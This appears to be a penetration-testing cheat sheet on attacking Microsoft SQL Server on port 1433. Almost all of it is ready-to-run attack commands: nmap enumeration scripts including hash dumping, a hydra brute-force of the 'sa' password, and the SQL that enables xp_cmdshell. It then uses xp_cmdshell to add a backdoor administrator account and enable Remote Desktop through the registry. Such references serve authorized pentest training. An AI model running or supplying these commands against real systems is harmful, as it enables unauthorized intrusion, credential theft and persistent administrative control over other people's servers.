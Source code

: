 # MSSQL - Microsoft SQL Server - 1433

## MSSQL Information

## Automated Enumeration

Nmap has a few scripts that we can use to enumerate MSSQL:

```text
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

## Bruteforce

Quick brutetroce for pass “SA” password

```text
hydra -l sa -P password.txt -V $ip mssql
```

## Authentication

Connect to MSSQL Server:

```text
sqsh -S server_address -U sa -P password
```

## Execute Shell Commands

Enable xp\_cmdshell:

```text
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
```

Execute System Command:

```text
xp_cmdshell 'net user byte bytepass /add'
go
xp_cmdshell 'net localgroup Administrators byte /add'
go
xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
go
```




